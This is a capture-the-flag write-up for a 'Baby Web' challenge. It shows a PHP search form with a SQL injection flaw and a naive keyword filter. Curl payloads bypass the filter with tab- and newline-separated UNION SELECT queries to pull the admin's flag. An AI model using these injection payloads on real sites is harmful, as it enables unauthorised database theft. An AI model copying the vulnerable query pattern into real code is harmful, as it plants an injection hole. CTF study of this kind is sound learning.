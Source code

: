# Baby Web

> It is all in the challenge.
>  
> http://ctf.pwn.sg:8180
>  
> *Creator - quanyang (@quanyang)


### The website


> The flag is in the flag column of the user 'admin'. 


This is the screenshot of the website. We are given a search bar to search for users.
![xctf_2018_baby_web_website_screenshot.png](../img/xctf_2018_baby_web_website_screenshot.png)

The source of the php file is in `src/baby_web.php`. The vulnerability lies inside that file.

### Vulnerable to SQL injection

The following php statements show that the SQL query is vulnerable to injection.
```
$sql = "SELECT username FROM users WHERE username like '%$username%';";
$result = $conn->query($sql);
```



### A form of "Protection" 

The SQL injection is not that straight forward though. There is a form of "protection".
```
$username = str_replace(" ","", $username);
$array = array("=", "union", "join", "select", "or", "from", "insert", "delete");
if(0 < count(array_intersect(array_map('strtolower', explode(' ', $username)), $array)))
{
die("die hacker!");
}
```

> str_replace — Replace all occurrences of the search string with the replacement string
> explode — Split a string by a string

`str_replace(" ","", $username)` deletes spaces from the variable `$username`. So when we give an input `"ad min"`, the SQL select statement selects usernames that matches `"admin"`.

![xctf_2018_baby_web_demo.png](../img/xctf_2018_baby_web_demo.png)



### Attempting to exploit

That just means we cannot use spaces. What about newline and tab characters? They work, but unfortunately we cannot use the `'\n'` and `'\t'`. Both curl queries below result in HTTP error 500.

```
curl --data-binary "username=%'\nUNION\nSELECT\nflag\nFROM\nusers;#--" -X POST http://ctf.pwn.sg:8180/?search
```

```
curl --data-binary "username=%'\tUNION\tSELECT\tflag\tFROM\tUSERS;#--" -X POST http://ctf.pwn.sg:8180/?search
```

![xctf_2018_baby_web_error.png](../img/xctf_2018_baby_web_error.png)


This is where we got stuck. We did not manage to solve the challenge. Turns out, we were on the right track. We just had to make a minor change to win.

### Successful exploitation

We should have used a file instead, where we could add tab and newline characters without using `'\t'` and `'\n'`.

```
$ cat query_string 
username=%'	UNION	SELECT	flag	FROM	users;#--
$ curl -d "@query_string" -X POST http://ctf.pwn.sg:8180/?search > output.html
```

![xctf_2018_baby_web_winner.png](../img/xctf_2018_baby_web_winner.png)

We were *that* close to winning.

